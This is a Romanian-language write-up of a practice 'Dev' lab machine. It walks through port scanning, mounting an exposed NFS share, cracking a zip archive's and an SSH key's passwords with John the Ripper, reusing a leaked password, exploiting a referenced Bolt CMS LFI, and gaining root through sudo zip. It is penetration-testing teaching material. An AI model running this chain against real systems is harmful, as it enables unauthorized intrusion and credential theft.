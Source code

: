 # Dev - walkthrough
Să începem cu scanarea porturilor deschise pentru o reprezentare mai clara pentru mașina data:
```
nmap -sS -A -T4 --min-rate 1500 -p- 192.168.64.138
```
```
22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:96:ec:08:2f:b1:ea:06:ca:fc:46:8a:7e:8a:e3:55 (RSA)
|   256 56:32:3b:9f:48:2d:e0:7e:1b:df:20:f8:03:60:56:5e (ECDSA)
|_  256 95:dd:20:ee:6f:01:b6:e1:43:2e:3c:f4:38:03:5b:36 (ED25519)
80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Bolt - Installation error
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      42805/tcp   mountd
|   100005  1,2,3      48144/udp6  mountd
|   100005  1,2,3      53181/udp   mountd
|   100005  1,2,3      56255/tcp6  mountd
|   100021  1,3,4      34389/tcp   nlockmgr
|   100021  1,3,4      35047/tcp6  nlockmgr
|   100021  1,3,4      36698/udp   nlockmgr
|   100021  1,3,4      45998/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
|_http-server-header: Apache/2.4.38 (Debian)
34389/tcp open  nlockmgr 1-4 (RPC #100021)
35407/tcp open  mountd   1-3 (RPC #100005)
42805/tcp open  mountd   1-3 (RPC #100005)
45233/tcp open  mountd   1-3 (RPC #100005)
```
### Serviciul nfs
Observăm ca avem acest serviciul activm să verificam ce directoarea sunt disponibile pentru montare:
```
showmount -e 192.168.64.138
```
```
Export list for 192.168.64.138:
/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16
```
Montăm acest directoriul la noi:
```
mount -t nfs 192.168.64.138:/srv/nfs /tmp/nfs_share_dir
```
Avem un fișier care are denumirea de `save.zip` în cazul în care încercăm săl dezarhivăm ne cere parola:
Putem so spargem cu utilita `zip2john` care ne trasformat fișierul în hash și pe urma cu atacul de metotă bruta încearcă săl spargă:
```
zip2john save.zip > save.zip.hash
```
Atacul de tip brute force:
```
john save.zip.hash
```
```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
java101          (save.zip)
```
În urmare avem 2 fișiere noi `id_rsa` și `todo.txt` conținutul la `todo.txt` este mai jos:
```
- Figure out how to install the main website properly, the config file seems correct...
- Update development website
- Keep coding in Java because it's awesome
jp
```
Aici avem și fișierul `id_rsa` pentru connectarea la distănță fără a știe parola:
### Serviciul HTTP
Să verificăm ce directoare sunt ascunse pe paginele noastre web primul este portul 8080:
```
[19:32:06] Starting:                                                                                                                                                       
[19:32:08] 403 -  281B  - /.htaccess.bak1                                   
[19:32:08] 403 -  281B  - /.htaccess.orig                                   
[19:32:08] 403 -  281B  - /.ht_wsr.txt
[19:32:08] 403 -  281B  - /.htaccess.save                                   
[19:32:08] 403 -  281B  - /.htaccess_extra
[19:32:08] 403 -  281B  - /.htaccess_orig
[19:32:08] 403 -  281B  - /.htaccess_sc                                     
[19:32:08] 403 -  281B  - /.htaccessOLD2                                    
[19:32:08] 403 -  281B  - /.htm                                             
[19:32:08] 403 -  281B  - /.htaccessOLD
[19:32:08] 403 -  281B  - /.htpasswds                                       
[19:32:08] 403 -  281B  - /.htaccess.sample
[19:32:08] 403 -  281B  - /.htaccessBAK
[19:32:08] 403 -  281B  - /.htpasswd_test                                   
[19:32:08] 403 -  281B  - /.httr-oauth                                      
[19:32:08] 403 -  281B  - /.html                                            
[19:32:08] 403 -  281B  - /.php                                             
[19:32:17] 301 -  321B  - /dev  ->  http://192.168.64.138:8080/dev/         
[19:32:18] 200 -    2KB - /dev/                                             
[19:32:32] 403 -  281B  - /server-status                                    
[19:32:32] 403 -  281B  - /server-status/  
```
Directoriul care ascuns este `/dev` să verificăm ce ascunde acesta:
```
[19:34:26] 301 -  328B  - /dev/config  ->  http://192.168.64.138:8080/dev/config/
[19:34:26] 200 -  411B  - /dev/config/                                      
[19:34:28] 200 -    1KB - /dev/favicon.ico                                  
[19:34:28] 301 -  327B  - /dev/files  ->  http://192.168.64.138:8080/dev/files/
[19:34:28] 200 -  411B  - /dev/files/                                       
[19:34:28] 301 -  327B  - /dev/forms  ->  http://192.168.64.138:8080/dev/forms/
[19:34:32] 301 -  327B  - /dev/pages  ->  http://192.168.64.138:8080/dev/pages/
[19:34:32] 200 -  530B  - /dev/pages/ 
```
Un directoriul care captează interesul este `/pages/` unde sunt salvate credințialile pentru `admin` acum trebuie să ne logăm ca acest user:

![alt text](image/Dev_admin_password.png)

De fapt aici este o vulnerabilitate de tip LFI care ne permite să citim fișierile care sunt pe mașina. Acest lucru ne permite să vedem ce utilizatori sunt înregistrați. Instrucțiunea este mai jos:
https://www.exploit-db.com/exploits/48411

![alt text](image/Dev_get_correct_user.png)

Utilizatorul care este înteresant poate fii `jeanpaul` să verificăm daca putem să ne logom cum cheile private:
```
ssh -i id_rsa jeanpaul@192.168.64.138
Enter passphrase for key 'id_rsa': 
jeanpaul@192.168.64.138's password: 
```
Avem nevoie de password pentru a ne loga dar în ajutor vine același `ssh2john` care transformă cheile private în hash(de fapt acest lucru este de presos):
```
ssh2john id_rsa > id_rsa.hash
```
```
john id_rsa.hash
```
Nici un rezultat dar ne aducem aminte de credințialele care au mai fost utilizate anterior și încercăm `I_love_java` și avem succes, acces pe mașină:

![alt text](image/Dev_get_user.png)

Cu comanda `sudo -l` vedem că avem aces să rulăm comanda `zip` cu privilegi de root în ajutor vine `gtfobins` cu instrucțiunea de mai jos:
https://gtfobins.github.io/gtfobins/zip/#sudo

![alt text](image/Dev_get_root.png)

Am primit root :)